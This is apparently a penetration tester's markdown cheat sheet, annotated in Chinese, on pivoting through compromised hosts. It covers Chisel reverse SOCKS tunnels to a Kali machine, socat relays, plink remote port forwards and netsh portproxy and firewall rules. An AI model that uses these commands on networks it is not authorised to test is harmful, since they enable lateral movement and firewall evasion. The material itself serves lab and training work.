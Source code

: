 # Tunnling
## ssh
## deep http
## ligolo
## Chisel
https://ap3x.github.io/posts/pivoting-with-chisel/
default port:1080
`cp $(which chisel) /var/www/html #or /tmp` 对于linux的目标主机，可以直接复制kali所使用的版本 
Kali:
```bash
chisel server --port 8080 --reverse
#sudo tcpdump -nvvvXi tun0 tcp port 8080 开启抓包
```
Linux:
```bash
/tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &
# 创建隧道
#chisel.exe client <chisel_server_IP>:<server_Port> R:<Local_Port>:<Remote_Host>:<Remote_Port> 
chisel.exe client 192.168.119.5:8080 80:172.16.6.241:80
chisel.exe client 192.168.119.5:8080 R:80:172.16.6.241:80 
```
# PortForward
通过中继机器访问远程/不同子网下的服务；
## Socat
```bash
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432 
iptables #也可以创建转发
```
## Plink
将远程服务3389拉到本地端口的9983使用
```powershell
.\plink.exe -ssh -l <login> -pw <password> -R <ssh_server_Socket>:<ssh_client_Socket> <sshServer_IP>
.\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 <Kali_IP>
```
No-tty Solution
```powershell
cmd.exe /c echo y | .\plink.exe -ssh -l kali -pw -R 127.0.0.1:9833:127.0.0.1:3389 192.168.41.7
```
## Netsh
受UAC限制&&需要管理员权限
将远程的2222拉到能直接访问主机192.168.50.64:2222上
Listen.port ---> connect.port
```cmd
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215

netstat -anp TCP | find "2222"
netsh interface portproxy show all
```
***
### 防火墙“凿洞”
防火墙只打开了80/3389端口，为了访问我们配置的2222端口，我们需要在防火墙上打一个洞。
**我们完成后还需要记得封住那个洞口！**
```powershell
#netsh advfirewall firewall子上下文 来创建这个端口。我们将使用add rule命令，并命名规则为"port_forward_ssh_2222"。稍后将使用这个名称来删除规则。
# Allow localport=2222 localip=192.168.50.64 'direction' dir=in -> 流量方向

netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow
```
***
>***一旦我们完成连接，我们需要记得删除刚刚创建的防火墙规则。***
***
```powershell
#端口转发规则也可以被删除
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```
